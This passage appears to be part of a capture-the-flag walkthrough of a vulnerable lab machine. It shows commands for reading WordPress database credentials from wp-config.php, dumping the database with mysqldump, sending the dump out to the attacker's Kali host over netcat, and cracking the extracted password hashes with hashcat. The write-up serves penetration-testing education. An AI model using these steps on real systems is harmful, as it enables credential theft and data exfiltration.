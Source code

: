 Then I tried to search for the documentroot in the apache configuration files in the path **/var/www/html/prehistoricforest/** I found the wordpress credentials for mysql.

```console
www-data@CallahanAutoSrv01:/$ grep -ir 'documentroot' /etc/apache2/
grep -ir 'documentroot' /etc/apache2
/etc/apache2/sites-available/default-ssl.conf:          DocumentRoot /var/www/html
/etc/apache2/sites-available/000-default.conf:  DocumentRoot /var/www/html
/etc/apache2/sites-available/2.conf:    DocumentRoot /var/thatsg0nnaleaveamark
www-data@CallahanAutoSrv01:/$ cd /var/www/html/prehistoricforest/
cd /var/www/html/prehistoricforest/
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ cat wp-config.php
...
/** The name of the database for WordPress */             
define('DB_NAME', 'wordpress');                      
                                                       
/** MySQL database username */                      
define('DB_USER', 'wordpressuser');    
                                  
/** MySQL database password */                       
define('DB_PASSWORD', 'CaptainLimpWrist!!!');  
                                              
/** MySQL hostname */            
define('DB_HOST', 'localhost');      
                                            
/** Database Charset to use in creating database tables. */   
define('DB_CHARSET', 'utf8');                                 
                                                          
/** The Database Collate type. Don't change this if in doubt. */ 
define('DB_COLLATE', '');
...
```

I dumped the wordpress database and transferred it to the attacking machine.

```console
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ mysqldump -u wordpressuser -p wordpress > /tmp/wpdump.sql
<orest$ mysqldump -u wordpressuser -p wordpress > /tmp/wpdump.sql            
Enter password: CaptainLimpWrist!!!
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ nc -vlnp 6565 < /tmp/wpdump.sql
```

```console
root@kali:~$ nc 192.168.179.149 6565 > wpdump.sql
```

I filtered the password hashes to the file wphashes.txt, then I cracked these with hashcat and I got the password **tomtom1**, this belongs to tom user.

```console
root@kali:~$ grep 'wp_users' wpdump.sql | grep -oP '\$P\$[^,]*' | cut -d "'" -f 1 > wphashes.txt
root@kali:~$ hashcat -a 0 -m 400 wphashes.txt rockyou.txt
...
$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.:tomtom1

root@kali:~$ grep '$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.' wpdump.sql
```
